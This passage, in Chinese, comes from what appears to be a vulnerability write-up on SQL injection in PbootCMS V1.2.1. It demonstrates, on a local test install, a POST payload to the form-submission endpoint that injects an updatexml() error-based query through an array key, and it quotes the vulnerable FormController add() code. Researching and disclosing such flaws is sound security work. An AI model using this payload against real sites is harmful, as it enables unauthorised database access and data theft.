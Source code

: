 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x01.2 免费通话insert sql注入
-----------------------------

注：本地测试的时候，这个地方的注入需要后台添加一条数据才能注！真实环境的话，开放了这个功能直接抓包即可
进入后台

![](./resource/PbootCMSsql注入/media/rId28.png)

![](./resource/PbootCMSsql注入/media/rId29.png)

![](./resource/PbootCMSsql注入/media/rId30.png)

![](./resource/PbootCMSsql注入/media/rId31.png)

### 0x08.2.1 漏洞演示

![](./resource/PbootCMSsql注入/media/rId33.png)

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
    post：
      tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111

![](./resource/PbootCMSsql注入/media/rId34.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\FormController.php
方法：add(

    // 表单提交
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                if (! $fcode = get('fcode', 'var')) {
                    alert_back('传递的表单编码有误！');
                }

                if ($fcode == 1) {
                    alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
                }

                // 验证码验证
                /*
                 * $checkcode = post('checkcode');
                 * if ($this->config('message_check_code')) {
                 * if (! $checkcode) {
                 * alert_back('验证码不能为空！');
                 * }
                 * if ($checkcode != session('checkcode')) {
                 * alert_back('验证码错误！');
                 * }
                 * }
                 */
